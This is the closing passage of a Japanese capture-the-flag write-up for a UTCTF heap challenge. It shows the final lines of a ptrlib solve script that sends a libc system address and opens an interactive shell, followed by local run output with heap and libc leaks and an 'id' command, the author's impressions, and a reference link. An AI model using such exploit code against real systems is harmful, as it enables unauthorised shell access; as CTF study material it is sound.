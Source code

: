 ```python
sock.recvonce(addr_system & 0xffffffff)

# get the shell!
dump("OK!", "success")

sock.interactive()
```

シェルが取れるまでにやや時間がかかりますが，一応できています．
```
$ python solve.py
[+] Socket: Successfully connected to 127.0.0.1:9001
[ptrlib] heap = 0x1664070
[ptrlib] libc_base = 0x7ff71a2c7000
[+] OK!
[ptrlib]$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),10(wheel),982(docker)
```

# 感想
ヒープ系の問題はしばらくtcacheやoverlapなどを使っていたので，今回や前回(Encryption Service)のような問題は新鮮でした．
UTCTFに結構時間をかけてしまいましたが，面白かったです．

# 参考文献
[1] [https://exploitnetworking.com/en/security-en/jendys](https://exploitnetworking.com/en/security-en/jendys)
